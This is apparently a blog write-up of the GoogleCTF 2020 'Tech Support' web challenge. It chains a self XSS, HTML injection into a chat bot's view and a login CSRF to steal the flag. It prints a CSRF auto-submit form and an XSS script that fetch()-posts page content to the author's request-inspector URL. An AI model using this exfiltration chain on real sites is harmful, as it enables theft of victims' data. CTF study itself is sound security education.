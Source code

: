 ```yaml
---
layout: post
title: "GoogleCTF Tech Support solution"
date: 2020-08-24
---
```


The challenge' info card gives us a link to the website.


![infocard](/assets/posts/googleCTF-techsupport/images/p1.PNG)


#### Website's first page:


![firstpage](/assets/posts/googleCTF-techsupport/images/p2.PNG)


After creating and logging in to a new user, the page looks like this:


#### Main page:


![mainpage](/assets/posts/googleCTF-techsupport/images/p3.PNG)


The `/me` page appears immediately after logging in to our user. 

We have the address update functionality on this page, the address is stored within the DOM and we can inject script tags.

When I set the address to `<script>alert()</script>` the tag is stored within the page as follows:


![selfxss-1](/assets/posts/googleCTF-techsupport/images/p4.PNG)


This XSS by itself is not useful, a self XSS, but we should keep it on the mind.

Let's look on the flag page:

#### Flag page:


![flagpage](/assets/posts/googleCTF-techsupport/images/p5.PNG)


Only the `chat` user can access the flag, we should find how to causing the chat user to access some vulnerable page which will fetch the flag page and send its content to our domain.
In order to do so, I sould find a way to communicate the chat user.
There is a chat page in the website.

#### Chat page:


![chatpage](/assets/posts/googleCTF-techsupport/images/p6.PNG)


I can write the chatbot the reason for chatting him, pass the ReCaptcha test and submit it, after submitting the form a chat iframe will pop up, the reason I entered reflected within the chat iframe

#### Chat creation:


![chatcreate](/assets/posts/googleCTF-techsupport/images/p7.PNG)


#### Reason reflection:


![reasonreflection](/assets/posts/googleCTF-techsupport/images/p8.PNG)


The reason isn't encoded or escaped so I'm able to inject tag.
Let's proof this:


![reasonxss](/assets/posts/googleCTF-techsupport/images/p9.PNG)


We can assume that the `chat` user is open the same chat page, so the tag will be injected in its frame also, let's check it with a simple image request to our request inspector domain: 

#### The reason payload:


![reasonpayload](/assets/posts/googleCTF-techsupport/images/p10.PNG)


I received two requests to my request inspector - one from my browser and one from the chat user:

#### Chat user request:


![chatrequest](/assets/posts/googleCTF-techsupport/images/p11.PNG)


The iframe' origin isn't the same as the main website, so we can't just steal the flag by exploiting the XSS.

The chat URL is `//typeselfsub-support.web.ctfcompetition.com/static/chat.html`

The flag URL is `https://typeselfsub.web.ctfcompetition.com/flag`

The SOP will prevent us from reading data between these two origins. We should find a way to exploit the self XSS we found on the `/me` page to receive the flag.

Remember the self XSS? The login page is vulnerable to CSRF, it sends an empty CSRF token. We can create a page that exploits this and redirects to the `/me` page which contains the stored self XSS payload.

```
<iframe srcdoc='
            <form class="form" action="https://typeselfsub.web.ctfcompetition.com/login" method="POST">
              <input class="form-control" autofocus="" type="text" id="username" name="username" value="om3r-v">
              <input class="form-control" type="password" id="password" name="password" value="1234">
              <input type="hidden" name="csrf" value="">
          </form>
          <script>
              document.forms[0].submit()
            </script>
'>
</iframe>
```

#### The result:


![exploitingselfXSS](/assets/posts/googleCTF-techsupport/images/p12.PNG)


To receive the flag, we should create another iframe with the flag source.

Each iframe can access the DOM of the other iframe because their origins are the same.

#### Illustration:


![illustration](/assets/posts/googleCTF-techsupport/images/p13.png)


The self XSS payload within the `/me` page is:

``` 
<script> 
fetch("https://requestinspector.com/inspect/01ek2nd2b5agjbgk4j7yh6spyb" , {"method":"POST", "body": parent.x.window.flag.innerText})
</script>
```

This script tag will be executed within an iframe and it sends a POST request to my request inspector domain, the request' body is the content of the flag which is located in an iframe. 

My malicious website source is :


![maliciousweb](/assets/posts/googleCTF-techsupport/images/p14.PNG)


To exploit this XSS with my malicious website, I should send it to the chat user using the HTML injection we found at the chat creation.
We will pass the malicious website as an iframe:


![pass the website](/assets/posts/googleCTF-techsupport/images/p15.PNG)


#### Receiving the flag:


![receiveflag](/assets/posts/googleCTF-techsupport/images/p16.PNG)


